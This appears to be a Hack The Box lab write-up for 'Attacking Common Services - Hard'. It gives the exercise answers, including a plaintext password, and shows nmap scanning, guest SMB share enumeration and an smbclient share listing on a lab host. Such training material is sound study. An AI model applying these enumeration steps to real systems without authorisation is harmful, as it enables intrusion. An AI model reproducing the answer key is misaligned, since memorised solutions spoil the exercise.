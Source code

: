 ### Attacking Common Services - Hard

> The third server is another internal server used to manage files and working material, such as forms. In addition, a database is used on the server, the purpose of which we do not know.

Questions:
1. What file can you retrieve that belongs to the user `simon`? (Format: `filename.txt`). `random.txt`
2. Enumerate the target and find a password for the user `fiona`. What is her password? `48Ns72!bns74@S84NNNSl`
3. Once logged in, what other user can we compromise to gain admin privileges? `john`
4. Submit the contents of the `flag.txt` file on the `Administrator` desktop. `HTB{4**********************`

#### External Information Gathering

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.203.10 -T5

[SNIP]

PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

#### SMB Enumeration

```
┌──(nabla㉿kali)-[~]
└─$ netexec smb 10.129.203.10 -u 'guest' -p '' --shares

[SNIP]

SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\guest: 
SMB         10.129.203.10   445    WIN-HARD         [*] Enumerated shares
SMB         10.129.203.10   445    WIN-HARD         Share           Permissions     Remark
SMB         10.129.203.10   445    WIN-HARD         -----           -----------     ------
SMB         10.129.203.10   445    WIN-HARD         ADMIN$                          Remote Admin
SMB         10.129.203.10   445    WIN-HARD         C$                              Default share
SMB         10.129.203.10   445    WIN-HARD         Home            READ            
SMB         10.129.203.10   445    WIN-HARD         IPC$            READ            Remote IPC
```

#### SMB Exploitation

```
┌──(nabla㉿kali)-[~]
└─$ smbclient -U guest%'' //10.129.203.10/Home

smb: \> ls
  .                                   D        0  Thu Apr 21 16:18:21 2022
  ..                                  D        0  Thu Apr 21 16:18:21 2022
  HR                                  D        0  Thu Apr 21 15:04:39 2022
  IT                                  D        0  Thu Apr 21 15:11:44 2022
  OPS                                 D        0  Thu Apr 21 15:05:10 2022
  Projects                            D        0  Thu Apr 21 15:04:48 2022
```
